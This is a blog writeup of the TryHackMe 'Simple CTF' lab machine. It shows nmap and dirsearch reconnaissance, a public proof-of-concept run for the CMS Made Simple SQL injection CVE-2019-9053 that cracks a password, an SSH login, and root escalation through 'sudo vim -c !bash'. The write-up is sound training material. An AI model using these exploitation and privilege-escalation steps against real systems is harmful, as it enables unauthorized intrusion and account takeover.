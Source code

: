 ```yaml
---
tagline: simplectf
title: Simple CTF | A Simple Writeup
description: A simple writeup for a simple machine.
banner: /blog/tryhackmeban2.png/
banner_alt: Banner of THM (if you find this the flag is csd{8r1N6_84CK_7H3_816_84N6_7H30rY})
date: '2024-02-18'
---
```

## Foreword

Keeping the intro concise, today I'll be tackling a THM machine created by [MrSeth6797](https://tryhackme.com/p/MrSeth6797). You can find this machine [here](https://tryhackme.com/room/easyctf).

## Question 1 & 2

- Starting with a NMAP scan

```bash:Terminal
❯ sudo nmap -sS -sV 10.10.221.233
Password:
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-18 22:46 EST
Nmap scan report for 10.10.221.233
Host is up (0.22s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.38 seconds
```

- To summarize, port 21 & 80 are open under port 1000 and ssh is running on the highest port.

## Dirsearch

```bash:Terminal
❯ dirsearch -u 10.10.221.233 --exclude-status 404,403

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

Output File: /Users/vipin/reports/_10.10.221.233/_24-02-18_23-42-55.txt

Target: http://10.10.221.233/

[23:43:01] Starting:
[23:44:32] 200 -  540B  - /robots.txt
[23:44:35] 301 -  315B  - /simple  ->  http://10.10.221.233/simple/

Task Completed
```

- *robots.txt* shows nothing important but */simple* shows us some sort of homepage

## Question 3 & 4

- Towards the bottom, we see the site is powered by *cmsmadesimple*

![Image showing a potential vulnerability](/blog/simplectfpics/vulnerabilityclue1.png 'Fig.1')

- A simple search tells us that vulnerability is [CVE-2019-9053](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9053) and it vulnerable to sqli.  

## Question 5

- Looking around the internet, we find [this POC script](https://github.com/Mahamedm/CVE-2019-9053-Exploit-Python-3) and the hint tells us to crack with [this](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/best110.txt) wordlist.

```bash:Terminal
❯ python3 csm_made_simple_injection.py -u http://10.10.159.250/simple/ --crack -w /Users/vipin/tech/CTFs/wordlists/best110.txt

[+] Salt for password found: <REDACTED>
[+] Username found: mitch
[+] Email found: admin@adw
[+] Password found: <REDACTED>
[+] Password cracked: <REDACTED>
```

## Questions 6 to 10 + Final Thoughts

- Now we can login through SSH with the username & password

```bash:Terminal
❯ ssh mitch@10.10.159.250 -p 2222
mitch@10.10.159.250's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ ls
user.txt
$ cat user.txt
<REDACTED>
```

- Looking in the home directory we find another user by the name of sunbath and running ```sudo -l``` we see that we can use vim to spawn a privileged shell (If you want to understand this better check out [this](https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d) article)

```bash:Terminal
❯ sudo vim 

:r!whoami # using ":r!" we can run commands as root

root # and look it tells us we are root
```

- Tiny issue with that, most commands can't work

```bash:Terminal
$ sudo vim -c '!bash'
root@Machine:/# cd /root
root@Machine:~# ls
root.txt
root@Machine:~# cat root.txt
<REDACTED>
root@Machine:~#
```

"Voila! Another machine rooted! I had a blast and learnt some new things along the way. I hope you enjoyed this writeup. If you're hungry for more, feel free to check out other writeups [here](https://www.vipinb.xyz/blog)!
